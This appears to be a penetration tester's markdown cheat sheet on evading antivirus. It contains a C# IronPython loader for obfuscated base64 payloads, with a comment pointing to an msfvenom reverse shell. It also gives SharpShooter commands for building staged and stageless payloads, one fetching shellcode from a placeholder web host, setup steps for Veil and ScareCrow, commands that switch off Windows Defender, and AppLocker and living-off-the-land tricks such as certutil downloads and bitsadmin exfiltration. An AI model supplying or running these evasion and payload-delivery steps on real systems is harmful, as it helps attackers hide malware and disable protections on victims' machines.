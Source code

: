 # AV Bypass
## Contents
- [AV Bypass](#av-bypass)
  * [Contents](#contents)
  * [Techniques](#techniques)
    + [Targeting Processes to Evade Detection](#targeting-processes-to-evade-detection)
    + [IronPython](#ironpython)
  * [Tools](#tools)
    + [Veil Framework:](#veil-framework-)
    + [Shellter](#shellter)
    + [Sharpshooter](#sharpshooter)
    + [Donut:](#donut-)
    + [Vulcan](#vulcan)
    + [Scarecrow](#scarecrow)
    + [Sharpshooter](#sharpshooter-1)
  * [Commands](#commands)
- [Living Off the Land](#living-off-the-land)
  * [Use Microsoft .NET InstallUtil to Evade AppLocker](#use-microsoft-net-installutil-to-evade-applocker)
- [Resources](#resources)
  * [Cheat sheets](#cheat-sheets)
  * [Workshops](#workshops)

## Techniques         
Modify malware to evade signature analysis, encode using obfuscation tools, leverage permitted tools (Living Off the Land)    
### Targeting Processes to Evade Detection     
Process Injection, Process Hollowing, Process Masquerading     

### IronPython         
Execute obfuscated Python natively in a C# program, encode it as a variable then execute (no Python interpreter needed). Source: https://www.willhackforsushi.com/sec504/csharp_py.cs     
~~~
// This is the excellent work of Chris Davis of Counter Hack
// Small edits by Joshua Wright for clarity

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace csharp_py
{
    class Program
    {
        static void Main(string[] args)
        {
            // Create an IronPython engine to execute Python code
            Microsoft.Scripting.Hosting.ScriptEngine pythonEngine =
                IronPython.Hosting.Python.CreateEngine();

            // Print the default search paths
            // You may need to manually add these paths to include the DLLs necessary for execution
            System.Console.Out.WriteLine("Search paths:");
            ICollection<string> searchPaths = pythonEngine.GetSearchPaths();
            foreach (string path in searchPaths)
            {
                System.Console.Out.WriteLine(path);
            }
            System.Console.Out.WriteLine();

            // Now modify the search paths to include the directory
            // where the standard library has been installed
            searchPaths.Add(@"..\..\Lib");
            searchPaths.Add(@"..\Lib");
            searchPaths.Add(@".\Lib");
            pythonEngine.SetSearchPaths(searchPaths);

            // Execute the malicious Python coce
            // Replace the payload below with your own, possibly the output of msfvenom
            // msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.75.1
            Microsoft.Scripting.Hosting.ScriptSource pythonScript = pythonEngine.CreateScriptSourceFromString("exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('cAByAGkAbgB0ACgAJwByAGUAcABsAGEAYwBlACAAdABoAGkAcwAgAHAAcgBpAG4AdAAgAHMAdABhAHQAZQBtAGUAbgB0ACAAdwBpAHQAaAAgAHQAaABlACAAbQBzAGYAdgBlAG4AbwBtACAAcAB5AHQAaABvAG4AIABwAGEAeQBsAG8AYQBkACcAKQA=')[0]))");
            pythonScript.Execute();
        }
    }
}
~~~

## Tools     

### Veil Framework:

Install on Kali

    apt install veil
    /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

### Shellter

Source: https://www.shellterproject.com/download/

    apt install shellter


### Sharpshooter

Javascript Payload Stageless: 

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

### Donut: 

Source: https://github.com/TheWover/donut

### Vulcan

Source: https://github.com/praetorian-code/vulcan


### Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

    sudo apt install golang

    go get github.com/fatih/color
    go get github.com/yeka/zip
    go get github.com/josephspurrier/goversioninfo

    go build ScareCrow.go

    ./ScareCrow

### Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Living Off the Land   
https://lolbas-project.github.io/    
Typical binaries used: Rundll32, Regsvr32, Msiexec, Mshta, Certutil, MSBuild, WMI command line utility (WMIC), WMI provider host (WmiPrvSe)      
Bitsadmin: exfil data   
Certutil: download data    

## Use Microsoft .NET InstallUtil to Evade AppLocker   
Execute code in program's local memory via reflection.    

    PS > InstallUtil /U mal.exe     #put malicious code in Uninstall routine of a program    
    
# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 

[AV Payloads](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads)    


## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 
